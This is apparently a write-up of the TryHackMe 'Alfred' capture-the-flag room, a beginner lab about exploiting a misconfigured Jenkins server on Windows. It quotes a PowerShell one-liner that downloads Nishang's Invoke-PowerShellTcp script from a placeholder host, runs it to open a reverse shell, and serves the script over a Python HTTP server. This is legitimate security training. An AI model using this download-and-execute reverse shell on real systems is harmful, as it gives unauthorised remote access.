 <p><h3> Welcome to the <em>TryHackMe</em></h3>
<h1>Offensive Pentesting learning path> Advanced Exploitation</h1>
<h2>Alfred</h2>
<p>Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication token.</p>
<br>
October 19, 2024<br><br>
Type: Easy<br>
Link: https://tryhackme.com/r/room/alfred</p><br>

![image](https://github.com/user-attachments/assets/89ba97a4-d79a-4c6d-8c86-dab1becb8e05)


<p><h2>Task 1 - Initial Access</h2>
In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. <br><br>
Since this is a Windows application, we'll be using <strong>Nishang</strong> to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the <strong>reverse shell scripts</strong>.<br><br>
Please note that this machine <strong>does not respond to ping</strong> (ICMP) and may take a few minutes to boot up.

In the foloowing link you´ll find more information about Nishang.https://github.com/samratashok/nishang<br>
And in tis other link we will find more abour reverse shell scripts. https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1</p>

> 1.1 - <em>How many ports are open? (TCP only)?</em><br>
>> <strong>Get-New</strong>
<br><br>

> 1.2 - <em>What is the username and password for the login panel? (in the format username:password)</em><br>
>> <strong>Get-New</strong>
<br><br>

<p>Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: <code>powershell iex</code> (<em>New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port</em></p>
<p>You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: <code>python3 -m http.server</code></p>


